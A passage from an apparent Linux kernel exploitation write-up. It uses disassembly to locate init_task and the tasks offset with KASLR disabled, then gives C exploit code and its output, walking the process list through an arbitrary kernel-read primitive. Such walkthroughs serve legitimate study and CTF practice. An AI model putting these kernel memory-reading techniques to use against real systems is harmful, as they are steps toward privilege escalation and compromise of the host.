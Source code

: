 ```asm
ffffffff8105cfb4:       c3                      ret
ffffffff8105cfb5:       48 c7 c7 e0 57 fb 81    mov    rdi,0xffffffff81fb57e0
ffffffff8105cfbc:       e8 98 c3 04 00          call   ffffffff810a9359 <printk>
ffffffff8105cfc1:       0f 0b                   ud2
ffffffff8105cfc3:       eb a9                   jmp    ffffffff8105cf6e <clear_tasks_mm_cpumask+0xe>
```

... we don't just see that **`init_task` is at `0xffffffff82211740`**, but also:

*   **that the offset of `tasks` in the `task_struct` is `0x388`** (or at least, the `tasks.next`, but, that's all we care for)
*   that the `next` value in the `tasks` does not simply point to next tasks's `task_struct`, but, to the `0x388` offset in it.
    Presumably an optimization for faster walking.

Without KASLR, we don't expect any of that to change between runs - and few iterations of restarting the VM / checking above
code with GDB, confirms that.

### Walking the task list

So, we know the `init_task` and the offset of `tasks.next` within that. At this point, we can write an "exploit" that walks over the task list
in a way similar to `for_each_process` macro and prints the addresses of the TCB:

```c
(...)

#define INIT_TASK 0xffffffff82211740
#define O_NEXT    0x388
#define BUF_SIZE  0x1000

int main() {
  open_pipeline();
  unsigned long task = INIT_TASK;
  copy_to_user(&task, (void*)(task+O_NEXT), 8);
  while((task-O_NEXT)!=INIT_TASK) {
    printf("Found process at 0x%lx\n", task-O_NEXT);
    copy_to_user(&task, (void*)(task), 8);
  }
  return 0;
}
```

Let's try

```bash
/ $ /exploit
Found process at 0xffff88807d7d0000
Found process at 0xffff88807d7d0c40
(...)
Found process at 0xffff88807cdba4c0
Found process at 0xffff88807cdbbd40
/ $ 
```
